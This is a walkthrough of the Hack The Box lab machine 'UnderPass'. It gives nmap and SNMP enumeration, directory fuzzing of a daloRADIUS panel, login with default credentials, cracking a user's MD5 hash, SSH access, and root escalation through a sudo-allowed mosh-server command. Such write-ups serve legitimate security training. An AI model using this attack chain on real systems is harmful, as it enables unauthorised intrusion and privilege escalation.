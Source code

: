 ![](images/image0.png)

# UnderPass HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.213 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.213 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.213 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

---

## Web Enumeration

On **port 80**, we found a web server running.

![](images/image17.png)

Directory fuzzing and subdomain enumeration didn’t reveal much, so I decided to check for **UDP ports**.

```bash
nmap -sU -T5 10.129.231.213
```

![](images/image5.png)

We see that **SNMP (port 161)** is open.

---

## SNMP Enumeration

```bash
nmap -sU -T5 -sC -sV -p161 10.129.231.213
```

![](images/image10.png)

Then ran:

```bash
snmpbulkwalk -c public -v2c 10.129.231.213
```

We got an email of a user and discovered that this is a **Daloradius** server.

![](images/image11.png)

---

## Web Exploitation

Visited the `/daloradius` endpoint — got **403 Forbidden**, so fuzzed it further.

```bash
ffuf -u http://10.129.231.213/daloradius/FUZZ -w /usr/share/wordlists/dirb/big.txt -s -recursion
```

![](images/image16.png)
![](images/image6.png)
![](images/image4.png)

Found `/app/users` endpoint showing a **login form**.

![](images/image9.png)

Also discovered `/app/operators`, so we tried default credentials.

![](images/image12.png)
![](images/image15.png)

Login was successful.

![](images/image13.png)

Found user **svcMosh** listed with an MD5 password hash.

![](images/image14.png)

---

## Cracking Credentials

Used **John the Ripper** to crack the hash and got:

```
svcMosh : underwaterfriends
```

![](images/image8.png)

---

## SSH Access

Logged in as **svcMosh**:

```bash
ssh svcMosh@10.129.231.213
```

![](images/image7.png)

User flag located in the initial directory.

---

## Privilege Escalation

Running `sudo -l` revealed we can execute `mosh-server` as sudo.

![](images/image1.png)

After some research, found this payload:

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

![](images/image3.png)

Successfully gained root access.

Root flag located at `/root/root.txt`.

---
